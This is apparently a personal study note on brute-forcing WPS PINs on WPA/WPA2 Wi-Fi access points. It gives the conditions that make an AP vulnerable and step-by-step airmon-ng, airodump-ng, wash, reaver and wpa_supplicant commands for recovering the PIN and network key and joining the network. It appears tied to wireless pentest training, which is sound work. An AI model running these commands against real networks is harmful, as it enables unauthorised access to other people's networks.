

# WPS Pin
Some [WPA/WPA2](../../networking/wifi/WPA-WPA2.md) networks are configured with WPS (Wi-Fi Protected Setup), which allows clients to connect using *an  8 digit pin* rather than the `PSK`. An attacker can exploit this setup by brute forcing the pin.

For an AP to vulnerable, it has to:
1. not block the protocol against brute force attempts
2. not be using PBC (Push Button Connect) which requires physical access to the AP to exploit
3. not be using a virtual pin (which only exists for a few seconds when its generated)

When the AP is vulnerable, you can use tools like [`airgeddon`](https://github.com/v1s1t0r1sh3r3/airgeddon) which has a comprehensive database of known pins for specific router models. These databases *significantly decrease the time it takes to brute force*.
## Tools
The two most popular tools for this attacks are [`reaver`](https://www.kali.org/tools/reaver/) and `bully`. `reaver` is slightly better because it has evolved to include other attack types (like the null pin attack) that [`bully`](https://github.com/kimocoder/bully) does not support.

Additionally `airgeddon` integrates with both `bully` and `reaver` to make the attack even easier.
## Attack Steps
#### 1. Monitor mode
Put the interface in monitor mode:
```bash
sudo airmon-ng start wlan0
```
#### 2. Monitor the network to find APs with WPS enabled
You can give `airodump-ng` the `--wps` command to narrow down APs using WPS:
```bash
sudo airodump-ng --band agb wlan0mon --wps
```
#### 2.1 Find APs using `wash`
Instead of using `airodump-ng` you can use `wash`. `wash` comes pre-installed as part of the `reaver` package in Kali:
```bash
sudo wash -i wlan0mon
```
#### 3. Get the PIN and the `PSK`
Once you identify an AP using WPS, you can set `reaver` against it:
```bash
sudo reaver -i wlan0mon -b <BSSID> -vv
```
The output should look something like this if it works:

#### 4. Connect to the network
Create the following conf file for `wpa_supplicant`:
```bash
network={
  ssid="wifi-event"
  psk=@M<PASSWORD>!@
}
```
Then connect by running:
```bash
sudo wpa_supplicant -c wpa.conf -i wlan2
```

> [!Resources]
> - [GitHub - kimocoder/bully: Bully WPS Attack Tool · GitHub](https://github.com/kimocoder/bully)
> - [reaver | Kali Linux Tools](https://www.kali.org/tools/reaver/)
> - [GitHub - v1s1t0r1sh3r3/airgeddon](https://github.com/v1s1t0r1sh3r3/airgeddon)
> - [Wifi Challenge Academy](https://academy.wifichallenge.com/courses/take/certified-wifichallenge-professional-cwp/texts/57442980-introduction)
> - My [own notes](https://github.com/trshpuppy/obsidian-notes) linked throughout the text.
